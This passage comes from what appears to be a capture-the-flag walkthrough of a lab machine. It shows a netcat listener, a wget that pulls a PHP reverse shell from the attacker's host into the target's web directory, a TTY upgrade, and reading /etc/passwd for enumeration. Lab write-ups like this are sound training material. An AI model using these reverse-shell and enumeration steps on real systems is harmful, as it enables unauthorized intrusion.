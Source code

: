 And in a separate terminal tab, opened a netcat listener for the reverse shell

```bash
nc -lvnp 4444
```

Then, from the target box's non-interactive shell created by the exploit 47691.sh, I downloaded the reverse shell directly into ``/opt/ona/www``:

```
wget 10.10.14.10:8000/php-reverse-shell.php
```

Using a web browser, I made a request to the reverse shell. Immediately, I got a shell:

![reverse shell success](reverse%20shell%20success.png)



### Upgrading the Shell

I originally learned this procedure [from this blog post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). It goes into much more depth, but I find that the following is usually sufficient. In only a few rare cases have I had to do more than this.

 Starting with the "dumb" shell, change from ``sh`` to ``bash``:

```bash
SHELL=/bin/bash script -q /dev/null
```

> You'll have a better prompt now, but still no tab completion and still no ability to use things like ``less`` or ``vi``. Let's fix that:
>

```bash
[ctrl+z]
stty raw -echo
fg [enter] [enter]
export TERM=xterm256-color
```

The shell will be backgrounded, then enable echo mode with ``stty``, then brought back to the foreground. This should make the shell much more comfortable to use. Enjoy your tab-completion and colours :rainbow:.



### www-data

So what can ``www-data`` do? Whenever I gain foothold on a new box, I like to take the following steps:


### Linux foothold strategy

1. Run ``id``. Find out what groups this user is in. Locate the user within ``/etc/passwd`` if possible; see if they have a shell and/or ``home`` directory.

   ```bash
   id && cat /etc/passwd | grep $USER
   ```
